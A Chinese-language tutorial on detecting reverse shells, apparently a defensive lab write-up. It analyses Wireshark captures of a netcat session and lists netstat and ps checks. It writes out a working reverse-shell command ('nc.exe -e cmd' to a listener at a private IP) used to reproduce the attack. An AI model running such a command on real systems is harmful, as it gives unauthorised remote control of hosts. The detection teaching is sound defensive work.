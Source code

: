 ### 一．反弹流量分析与检测方法
这里以反弹shell为案例，讲解检测方法手段，假设在内网后渗透阶段，当攻击者获取到管理权限，为了进一步扩大攻击范围在进行横向渗透时，通常会使用到反弹shell的方法获取主机权限，针对反弹shell这种攻击方法，可以根据反弹shell的特征去识别检测，反弹shell传输的数据是以明文方式进行传输的，很容易使用流量分析检测到，对流量特征进行溯源分析检测其带入的攻击特征，即可复现到过程。下面以NC工具为案例进行复现，以全局角度演示反弹shell检测方法，防御手段。如图1-1所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683783199-30372d54-9bc1-4a8e-876d-62836d3889f6.png#)<br />图1-1 反弹流量分析与检测方法
##### 1.wireshark流量分析
1）准备两台主机，实验环境如图1-1所示，使用kali作为靶机，执行nc -lvp 8888命令开启本地监听，执行成功如图1-2所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683783499-345049c8-cb16-4e29-bc56-cad4f170b02f.png#)<br />图1-2 NC开启监听<br /> 2）此时在Windows10主机使用Wireshark抓包工具来抓取数据流量，并设置过滤器，执行ip.addr==192.168.0.28 and !icmp and !nbns过滤掉无关协议，如图1-3所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683783843-52a65f1f-40c7-498e-ba84-5fab0449c303.png#)<br />图1-3  Wireshark开启监听<br />3）在Windows10主机上进行连接，执行nc.exe -e cmd 192.168.0.28 8888命令然后反弹shell，执行成功，如图1-4所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683784159-f06000e8-1815-4b23-8935-32d8502f59a0.png#)<br />图1-4 反弹shell执行成功<br />4）此时Wireshark流量分析软件也成功捕获数据包。可以看到数据包很简单，除去dns就只有tcp的三次握手，如图1-5所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683784457-c8695fc9-f9c1-4a4e-96ac-6b4d9ab4cd96.png#)<br />图1-5捕获流量包<br />5）接下来我们在反弹的shell中执行命令whoami，同时wireshark软件也抓到了数据，从图1-6中可以看到执行whoami这个命令一共有4个过程。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683784772-6ec44150-0e01-486e-b65d-c5278fef65a0.png#)<br />图1-6命令执行数据包<br />6）首先是监听机（192.168.0.58）向靶机发送一个带有ACK和PSH的数据包，数据段中带有我们输入的命令，如图1-7所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683785180-ba4ada38-2c11-4c23-85b4-b1385b37bf03.png#)<br />图1-7命令发送数据包<br />    7）然后靶机再向监听机回复一个ACK，告诉它已经收到了数据，如图1-8所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683785497-b579cee7-1e5d-4bf7-8f49-2fba64238fff.png#)<br />图1-8接收确认数据包<br />    8）接着靶机又向监听机发送一个带有PSH、ACK的数据包，里面携带了whoami的执行结果，如图1-9所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683785908-88c972b0-8491-47e8-a1b2-0bbfe1a258a5.png#)<br />图1-9命令执行结果返回数据包<br />    9）最后监听机向靶机发送一个ACK，告诉靶机自己收到了数据，整个过程结束，如图1-10所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683786245-da0cd604-953b-4309-bf94-2334e2f7fb0c.png#)<br />图1-10传输完成数据包
##### 2.通过检测命令查看
1）如常见的bash反弹shell，我们可以通过netstat命令检测Bash进程启动事件，判断是否存在反弹shell，执行netstat -anop | grep ESTABLISHED等。这里是查看有无bash/sh连接到远端地址，如图1-11所示。![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683786578-f10946b5-d648-4661-8ad0-2402f057097a.png#)<br />图1-11 查看远端地址<br />    2）通过ps -ef，查看有无反弹shell的常见命令，如图1-12所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683786923-f2885b6f-c530-49be-89e4-2f2e9d66dbe3.png#)<br />图1-12反弹shell的常见命令


